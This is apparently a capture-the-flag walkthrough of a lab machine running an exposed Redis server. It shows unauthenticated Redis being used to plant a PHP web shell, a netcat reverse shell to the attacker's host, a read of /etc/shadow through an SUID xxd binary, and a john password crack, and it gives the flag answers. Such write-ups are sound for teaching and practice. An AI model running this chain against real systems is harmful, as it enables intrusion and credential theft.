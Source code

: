 ``IP:`` 10.10.161.209

## Enumeration
##### Nmap
```r
nmap -sV -sC 10.10.161.209 -p- --open
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-26 21:27 EST
Nmap scan report for 10.10.161.209
Host is up (0.12s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
6379/tcp open  redis   Redis key-value store 6.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.79 seconds

```
I used the ``--open flag`` to tell nmap to run the ``version`` and ``script scan`` only on ``open ports``.
Found two open ports:
- SSH running on port 22
- Redis running on port 6379

### Q/A
Answer the questions below

Scan the machine, how many ports are open?
``Answer:`` 2

What's is the database management system installed on the server?  
``Answer:`` Redis

What port is the database management system running on?  
``Answer: ``6379

What's is the version of management system installed on the server?  
``Answer:`` 6.0.7

Compromise the machine and locate user.txt
``Answer:`` thm{red1s_rce_w1thout_credent1als}

What is the local user account password?
```r
redis-cli -h 10.10.161.209
10.10.161.209:6379> dir
(error) ERR unknown command `dir`, with args beginning with: 
10.10.161.209:6379> config set dir /var/www/html
OK
10.10.161.209:6379> config set dbfilename shell.php
OK
10.10.161.209:6379> set test "<?php system($_GET[cmd]); ?>"
OK
10.10.161.209:6379> 
10.10.161.209:6379> save
OK
10.10.161.209:6379> 
```

I went to the webpage running port 80 and issued this command from the browser:
```
http://10.10.161.209/shell.php?cmd=nc -e /bin/sh 10.9.105.150 4444
```
while I started netcat on my host machine to capture the ``reverse shell``
``nc -lvnp 4444``

I was able to login as ``www-data``
```r
nc -lnvp 4444            
listening on [any] 4444 ...
connect to [10.9.198.175] from (UNKNOWN) [10.10.161.209] 34922
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
I was enumeration the compromised host and i noticed a user called ``vianka``. And I was able to change directory into that user and view the user.txt flag

```r
www-data@ubuntu:/etc$ cd ..
cd ..
www-data@ubuntu:/$ cd home
cd home
www-data@ubuntu:/home$ ls
ls
vianka
www-data@ubuntu:/home$ cd vianka
cd vianka
www-data@ubuntu:/home/vianka$ ls -l
ls -l
total 8
drwxrwxr-x 7 vianka vianka 4096 Sep  2  2020 redis-stable
-rw-rw-r-- 1 vianka vianka   35 Sep  2  2020 user.txt
www-data@ubuntu:/home/vianka$ cat user.txt
cat user.txt
thm{red1s_rce_w1thout_credent1als}
www-data@ubuntu:/home/vianka$ 
```

To elevate out user account, we need to find something to escalate our privileges and to do this we can look for the SUID permissions with this command:

```r
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
<perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null                   
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 40152 Jan 27  2020 /bin/mount
-rwsr-xr-x 1 root root 40128 Mar 26  2019 /bin/su
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 27608 Jan 27  2020 /bin/umount
-rwxr-sr-x 1 root shadow 35600 Apr  9  2018 /sbin/unix_chkpwd
-rwxr-sr-x 1 root shadow 35632 Apr  9  2018 /sbin/pam_extrausers_chkpwd
-rwxr-sr-x 1 root tty 27368 Jan 27  2020 /usr/bin/wall
-rwsr-xr-x 1 root root 71824 Mar 26  2019 /usr/bin/chfn
-rwxr-sr-x 1 root mlocate 39520 Nov 17  2014 /usr/bin/mlocate
-rwxr-sr-x 1 root shadow 62336 Mar 26  2019 /usr/bin/chage
-rwsr-xr-x 1 root root 18552 Mar 18  2020 /usr/bin/xxd
-rwxr-sr-x 1 root shadow 22768 Mar 26  2019 /usr/bin/expiry
-rwxr-sr-x 1 root crontab 36080 Apr  5  2016 /usr/bin/crontab
-rwsr-xr-x 1 root root 39904 Mar 26  2019 /usr/bin/newgrp
-rwsr-xr-x 1 root root 136808 Jan 31  2020 /usr/bin/sudo
-rwsr-xr-x 1 root root 54256 Mar 26  2019 /usr/bin/passwd
-rwxr-sr-x 1 root tty 14752 Mar  1  2016 /usr/bin/bsd-write
-rwsr-xr-x 1 root root 75304 Mar 26  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 40432 Mar 26  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 42992 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-r-sr-xr-x 1 root root 13628 Sep  1  2020 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
-r-sr-xr-x 1 root root 14320 Sep  1  2020 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
www-data@ubuntu:/var/www/html$ LFILE=/etc/shadow
```
The xxd program looks suspicious. Let go check [GTO - XXD](https://gtfobins.github.io/gtfobins/xxd/).
```r
File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.
```

We were able to use the above techniques to read the ``/etc/shadow ``file and also the ``/etc/passwd`` file
```r
www-data@ubuntu:/var/www/html$ LFILE=/etc/shadow
LFILE=/etc/shadow
xxd "$LFILE" | xxd -r
xxd "$LFILE" | xxd -r
root:!:18507:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
```

Save both files on your local machine and unshadow it

```r
unshadow passwd shadow               
vianka:$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:1000:1000:Res,,,:/home/vianka:/bin/bash
➜  RES eza -l                                                       
.rw-r--r--   49 root 26 Feb 22:23 passwd
.rw-r--r-- 1.5k root 26 Feb 22:12 password.txt
.rw-r--r--  125 root 26 Feb 22:22 shadow
➜  RES nano hash    
➜  RES john --wordlist=/usr/share/wordlists/rockyou.txt hash        
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
beautiful1       (vianka)     
1g 0:00:00:00 DONE (2024-02-26 22:24) 2.083g/s 3200p/s 3200c/s 3200C/s kucing..mexico1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
``Answer: ``beautiful1


``Question:`` Escalate privileges and obtain root.txt
Let log in as ``vianka``

```r
www-data@ubuntu:/var/www/html$ su vianka
su vianka
Password: beautiful1
cd ..
vianka@ubuntu:/$ 
```

Vianka is able to run as root without restrictions (bad idea)
```r
vianka@ubuntu:/$ sudo -l
sudo -l
[sudo] password for vianka: beautiful1

Matching Defaults entries for vianka on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vianka may run the following commands on ubuntu:
    (ALL : ALL) ALL
vianka@ubuntu:/$ 
```

Let's get the root.txt file

```r
vianka@ubuntu:/$ sudo ls /root/
sudo ls /root/
root.txt
vianka@ubuntu:/$ sudo cat /root/root.txt
sudo cat /root/root.txt
thm{xxd_pr1v_escalat1on}
vianka@ubuntu:/$ 
```
``Answer: ``thm{xxd_pr1v_escalat1on}